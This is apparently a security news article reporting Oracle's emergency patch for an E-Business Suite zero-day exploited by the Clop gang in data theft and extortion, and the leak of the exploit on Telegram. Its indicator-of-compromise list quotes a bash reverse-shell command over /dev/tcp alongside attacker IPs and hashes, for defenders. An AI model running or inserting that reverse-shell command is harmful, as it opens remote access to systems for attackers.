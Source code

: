 # Oracle patches EBS zero-day exploited in Clop data theft attacks

![Oracle](https://www.bleepstatic.com/content/hl-images/2025/03/21/Oracle.jpg)

Oracle is warning about a critical E-Business Suite zero-day vulnerability tracked as CVE-2025-61882 that allows attackers to perform unauthenticated remote code execution, with the flaw actively exploited in Clop data theft attacks.

The flaw is within the Oracle Concurrent Processing product of Oracle E-Business Suite (component: BI Publisher Integration) and has a CVSS base score of 9.8, due to its lack of authentication and ease of exploitation.

"This Security Alert addresses vulnerability CVE-2025-61882 in Oracle E-Business Suite," reads a new Oracle advisory.

"This vulnerability is remotely exploitable without authentication, i.e., it may be exploited over a network without the need for a username and password. If successfully exploited, this vulnerability may result in remote code execution."

Oracle has confirmed that the zero-day vulnerability affects Oracle E-Business Suite, versions 12.2.3-12.2.14, and has released an [emergency update](https://support.oracle.com/rs?type=doc&id=3106344.1) to address the flaw. The company notes that customers must first install the October 2023 Critical Patch Update before they can install the new security updates.

## Zero-day exploited in Clop data theft attacks

While Oracle has not explicitly stated that this is a zero-day vulnerability, they did share indicators of compromise that correspond to an Oracle EBS exploit recently shared by threat actors on Telegram. 

Charles Carmakal, CTO, Mandiant - Google Cloud, also confirmed that this was the flaw exploited by the Clop ransomware gang in data theft attacks that occurred in August 2025.

"Clop exploited multiple vulnerabilities in Oracle EBS which enabled them to steal large amounts of data from several victim in August 2025," Carmakal shared in a statement to BleepingComputer.

"Multiple vulnerabilities were exploited including vulnerabilities that were patched in Oracle's July 2025 update as well as one that was patched this weekend (CVE-2025-61882)," continued Carmakal.

CVE-2025-61882 is a critical (9.8 CVSS) vulnerability that enables unauthenticated remote code execution.

News of Clop's latest extortion campaign first broke last week, when Mandiant and the Google Threat Intelligence Group (GTIG) reported that they were [tracking a new campaign](https://www.bleepingcomputer.com/news/security/clop-extortion-emails-claim-theft-of-oracle-e-business-suite-data/) in which multiple companies received emails claiming to be from the threat actors.

These emails stated that Clop had stolen data from the company's Oracle E-Business Suite systems and were demanding a ransom not to leak the stolen data.

"We are CL0P team. If you haven't heard about us, you can google about us on internet," reads the extortion email shared with BleepingComputer.

"We have recently breached your Oracle E-Business Suite application and copied a lot of documents. All the private files and other information are now held on our systems."

![Clop extortion email](https://www.bleepstatic.com/images/news/security/c/clop/oracle-e-business-suite-extortion/clop-oracle-extortion-email.jpg)

**Clop extortion email**  
_Source: Google_

The Clop extortion gang has a long history of exploiting zero-day vulnerability in massive data theft attacks, which include:

* **2020:** Exploiting a [zero-day in the Accellion FTA platform](https://www.bleepingcomputer.com/tag/accellion/), affecting nearly 100 organizations.
* **2021:** Exploiting a [zero-day in SolarWinds Serv-U FTP](https://www.bleepingcomputer.com/news/security/clop-gang-exploiting-solarwinds-serv-u-flaw-in-ransomware-attacks/) software.
* **2023:** Exploiting a [zero-day in the GoAnywhere MFT platform](https://www.bleepingcomputer.com/news/security/fortra-shares-findings-on-goanywhere-mft-zero-day-attacks/), breaching over 100 companies.
* **2023:** Exploiting a [zero-day in MOVEit Transfer](https://www.bleepingcomputer.com/news/security/clop-ransomware-claims-responsibility-for-moveit-extortion-attacks/) was Clop's most extensive campaign to date, where a zero-day exploit allowed [data theft from 2,773 organizations worldwide](https://www.emsisoft.com/en/blog/44123/unpacking-the-moveit-breach-statistics-and-analysis/).
* **2024:** Exploited [two Cleo file transfer zero-days (CVE-2024-50623 and CVE-2024-55956)](https://www.bleepingcomputer.com/news/security/clop-ransomware-claims-responsibility-for-cleo-data-theft-attacks/) to steal data and extort companies.

Clop later confirmed to BleepingComputer that they were behind the extortion emails and indicated they exploited an Oracle zero-day vulnerability to steal the data.

"Soon all will become obvious that Oracle bugged up their core product and once again, the task is on clop to save the day," Clop told BleepingComputer, indicating a new flaw was exploited.

However, [Oracle initially linked the Clop extortion campaign](https://www.bleepingcomputer.com/news/security/oracle-links-clop-extortion-attacks-to-july-security-flaws/) to vulnerabilities that were patched in July 2025 rather than the new zero-day that we now know was used in the attacks.

Oracle has now shared indicators of compromise for the zero-day exploitation, which include two IP addresses seen exploiting servers, a command to open a remote shell, and the exploit archive and associated files.

* 200\[.\]107\[.\]207\[.\]26 - IP address associated with observed exploitation. (HTTP GET and POST requests)
* 185\[.\]181\[.\]60\[.\]11 - IP address associated with observed exploitation. (HTTP GET and POST requests)
* sh -c /bin/bash -i >& /dev/tcp// 0>&1 - Command executed by exploit to open a reverse shell.
* [76b6d36e04e367a2334c445b51e1ecce97e4c614e88dfb4f72b104ca0f31235d](http://www.virustotal.com/gui/file/76b6d36e04e367a2334c445b51e1ecce97e4c614e88dfb4f72b104ca0f31235d) \- oracle\_ebs\_nday\_exploit\_poc\_scattered\_lapsus\_retard\_cl0p\_hunters.zip (Exploit archive)
* [aa0d3859d6633b62bccfb69017d33a8979a3be1f3f0a5a4bf6960d6c73d41121](http://www.virustotal.com/gui/file/aa0d3859d6633b62bccfb69017d33a8979a3be1f3f0a5a4bf6960d6c73d41121) \- oracle\_ebs\_nday\_exploit\_poc\_scattered\_lapsus\_retard-cl0p\_hunters/exp.py (Part of exploit)
* [6fd538e4a8e3493dda6f9fcdc96e814bdd14f3e2ef8aa46f0143bff34b882c1b](http://www.virustotal.com/gui/file/6fd538e4a8e3493dda6f9fcdc96e814bdd14f3e2ef8aa46f0143bff34b882c1b) \- oracle\_ebs\_nday\_exploit\_poc\_scattered\_lapsus\_retard-cl0p\_hunters/server.py (Part of exploit)

## Exploit leaked by Scattered Lapsus$ Hunters

While Clop is behind the data theft attacks and exploitation of the Oracle zero-day, news of the zero-day first came from a different group of threat actors who have been [making their own headlines](https://www.bleepingcomputer.com/tag/shinyhunters/) lately with their widespread [data theft attacks on Salesforce customers](https://www.bleepingcomputer.com/news/security/shinyhunters-starts-leaking-data-stolen-in-salesforce-attacks/).

On Friday, these actors, calling themselves "Scattered Lapsus$ Hunters" as they claim to consist of threat actors from Scattered Spider, Lapsus$, and ShinyHunters, leaked two files on Telegram that they said were related to the Clop attacks.

One file named "GIFT\_FROM\_CL0P.7z" contains Oracle source code that appears to be related to "support.oracle.com" based on the file names.

However, the threat actors also released an "ORACLE\_EBS\_NDAY\_EXPLOIT\_POC\_SCATTERED\_LAPSUS\_RETARD\_CL0P\_HUNTERS.zip" archive, which they insinuated by the filename was the Oracle E-Business exploit used by Clop.

![Oracle E-Business exploit for zero-day flaw](https://www.bleepstatic.com/images/news/security/o/oracle/ebs-zero-day/oracle-e-business-exploit-leak.jpg)

**Oracle E-Business exploit for zero-day flaw**

BleepingComputer has confirmed this is the same file listed in Oracle's indicators of compromise.

This archives contains a readme.md instruction file and two Python scripts named exp.py and server.py. These Python scripts are used to exploit a vulnerable Oracle E-Business Suite instance and either execute an arbitrary command or open a reverse shell back to the threat actor's servers.

As the IOCs shared by Oracle list the name of the exploit archive shared by Scattered Lapsus$ Hunters, it is now confirmed that this is the exploit used by the Clop ransomware gang.

However, it does raise questions on how the Scattered Lapsus$ Hunters threat actors gained access to the exploit and whether they are working with Clop in some capacity.

BleepingComputer contacted representatives from both ShinyHunters and Clop to ask questions about this relationship, but has not received a response at this time.